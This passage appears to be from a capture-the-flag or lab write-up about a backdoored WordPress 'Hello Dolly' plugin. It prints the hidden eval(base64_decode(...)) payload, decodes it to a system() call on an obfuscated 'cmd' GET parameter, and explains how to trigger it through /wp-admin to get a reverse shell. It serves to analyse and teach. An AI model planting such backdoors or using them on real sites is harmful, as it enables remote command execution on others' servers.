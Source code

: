 ```php
function hello_dolly() {
	eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
	
	$chosen = hello_dolly_get_lyric();
	$lang   = '';
	if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {
		$lang = ' lang="en"';
	}

	printf(
		'<p id="dolly"><span class="screen-reader-text">%s </span><span dir="ltr"%s>%s</span></p>',
		__( 'Quote from Hello Dolly song, by Jerry Herman:' ),
		$lang,
		$chosen
	);
}

// Now we set that function up to execute when the admin_notices action is called.
add_action( 'admin_notices', 'hello_dolly' );

// We need some CSS to position the paragraph.
function dolly_css() {
	echo "
	<NONSENSESTYLE>
	";
}

add_action( 'admin_head', 'dolly_css' );
```

The eval looks particularly malicious, which is why I decoded the `base64`.
The code which is run by the eval is a check whether the parameter `\143\155\x64` exists, if it exists it's used with the system command, which can execute code.
```php
if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }
```

This looks like a backdoor we can abuse. I next tried to figure out what that means. The first two chars we can simply decode with [Cyberchef](https://cyberchef.org/#recipe=From_Octal('Space')&input=MTQzIDE1NQ) with the `From Octal` method. The decoded characters are `cm`, in python we can run `chr(0x64)` which shows that this is a `d`, so the parameter we can use is `cmd`.

I next found out that the `hello.php` file and the function `hello_dolly` is called whenever we load the `wp-admin` page. So to get our reverse shell we can add the cmd parameter to the `/wp-admin` page and execute commands. T check if that works I first tried to `curl` my IP.
